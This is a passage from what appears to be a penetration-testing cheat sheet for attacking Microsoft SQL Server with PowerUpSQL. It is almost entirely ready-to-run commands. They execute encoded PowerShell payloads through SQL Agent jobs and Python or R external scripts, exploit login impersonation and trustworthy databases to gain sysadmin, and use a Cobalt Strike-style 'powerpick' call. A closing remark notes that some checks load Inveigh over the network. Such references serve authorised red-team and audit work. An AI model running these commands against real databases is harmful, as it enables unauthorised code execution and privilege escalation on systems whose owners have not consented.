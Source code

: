 ```ps1
Invoke-SQLOSCmdAgentJob -Subsystem PowerShell -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "powershell e <base64encodedscript>" -Verbose
Subsystem Options:
–Subsystem CmdExec
-SubSystem PowerShell
–Subsystem VBScript
–Subsystem Jscript
```

### List All Jobs

```ps1
Get-SQLAgentJob -Instance "<DBSERVERNAME\DBInstance>" -username sa -Password Password1234 -Verbose
```

## External Scripts

## Python:

```ps1
Invoke-SQLOSCmdPython -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "powershell -e <base64encodedscript>" -Verbose
```

## R

```ps1
Invoke-SQLOSCmdR -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "powershell -e <base64encodedscript>" -Verbose
```

## Audit Checks


### Find and exploit impersonation opportunities 

```ps1
Invoke-SQLAuditPrivImpersonateLogin -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Exploit -Verbose

# impersonate sa account
powerpick Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "EXECUTE AS LOGIN = 'sa'; SELECT IS_SRVROLEMEMBER(''sysadmin'')" -Verbose -Debug
```

## Find databases that have been configured as trustworthy

```ps1
Invoke-SQLAuditPrivTrustworthy -Instance "<DBSERVERNAME\DBInstance>" -Exploit -Verbose 
```

> The following audit checks run web requests to load Inveigh via reflection. Be mindful of the environment and ability to connect outbound.
